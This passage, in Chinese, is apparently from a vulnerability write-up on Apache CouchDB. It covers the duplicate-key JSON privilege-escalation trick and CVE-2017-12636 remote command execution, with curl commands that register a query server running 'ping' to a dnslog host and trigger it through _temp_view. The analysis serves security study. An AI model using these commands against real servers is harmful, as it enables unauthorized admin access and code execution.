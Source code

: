 ```

> JSON.parse("{\"foo\":\"bar\", \"foo\": \"baz\"}")
{foo: "baz"}
```
对于给定的键，Erlang解析器Jiffy将存储两个值，但Javascript解析器将只存储最后一个值。而CouchDB在处理数据时其getter函数只返回第一个值。所以如果让第一个值是admin权限，第二个值是个空值。就可以绕过javascript校验
```
% Within couch_util:get_value 
lists:keysearch(Key, 1, List).
```

### CVE-2017-12636
参考链接：https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
这篇文章中同样提到，如何获取shell。CouchDB允许通过query_server定义语言来执行命令。查询1.6的CouchDB说明文档， `3.8.1 Query Servers Definition`部分说到CouchDB的Design Functions计算功能是由外部查询服务器执行的，而外部查询服务器实际上是一个特殊的操作系统进程，外部查询服务器需要在配置文件中定义
```
[query_servers]
LANGUAGE = PATH ARGS
```
Language是外部查询服务器会执行的代码，PATH是二进制文件的路径，ARGS是命令行参数。根据API接口文档，想要更改配置文件需要`PUT /_config/{section}/{key}`，那么设置query_servers的代码如下
```
curl -X PUT 'http://admin:admin@your-ip:5984/_config/query_servers/cmd' -d '"ping xxx.dnslog.cn"'
```
API文档中提到想要执行view function的代码如下`POST /{db}/_temp_view`，但是想要执行这个代码就需要有一个真实存在的db，所以payload也是先创建了db和具体的doc。
```
curl -X PUT 'http://admin:admin@your-ip:5984/my_database'
curl -X PUT 'http://admin:admin@your-ip:5984/my_database/"001" -d "{\"Name\":\"AxisX\",\"age\":\"18\",\"Title\":\"Hacker\"}" -H "Content-Type: application/json"`
curl -X POST 'http://admin:admin@your-ip:5984/my_database/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

